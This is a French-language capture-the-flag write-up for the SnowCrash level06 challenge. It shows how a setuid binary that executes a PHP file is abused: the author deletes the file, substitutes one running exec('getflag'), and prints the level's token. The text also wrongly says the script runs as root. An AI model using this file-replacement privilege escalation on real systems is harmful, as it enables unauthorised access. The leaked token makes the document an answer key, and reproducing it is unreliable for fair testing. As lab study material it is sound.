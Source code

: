 # Level06

</br></br>

## ls -l

```sh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Les deux fichiers sont exécutables et lisibles
Dans le fichier level06, rws signifie lecture-écriture-exécution + setuid. Cela signifie que lorsque le fichier est exécuté, l'utilisateur exécutant a les privilèges du propriétaire du fichier (flag06). Ainsi, lorsque l'utilisateur level06 exécute le fichier level06, il aura les privilèges de l'utilisateur flag06 lors de son exécution.

</br></br>

## level06

```bash
level06@SnowCrash:~$ strace ./level06
...
...
mprotect(0xb7fcf000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xb7ffe000, 4096, PROT_READ)   = 0
munmap(0xb7fd5000, 21440)               = 0
brk(0)                                  = 0x804b000
brk(0x806c000)                          = 0x806c000
getegid32()                             = 2006
geteuid32()                             = 2006
setresgid32(2006, 2006, 2006)           = 0
setresuid32(2006, 2006, 2006)           = 0
execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 21 vars */]) = 0
...
...
```

level06 execute le fichier level06.php avec les privilèges root

```
level06@SnowCrash:~$ chomod 777 .
level06@SnowCrash:~$ ls
level06  level06.php
level06@SnowCrash:~$ rm -rf level06.php
level06@SnowCrash:~$ ls
level06
level06@SnowCrash:~$ vim level06.php
level06@SnowCrash:~$ ls
level06  level06.php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php

<?php
echo exec('getflag');
?>
level06@SnowCrash:~$ ./level06

Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
level06@SnowCrash:~$ su level07
Password:
```
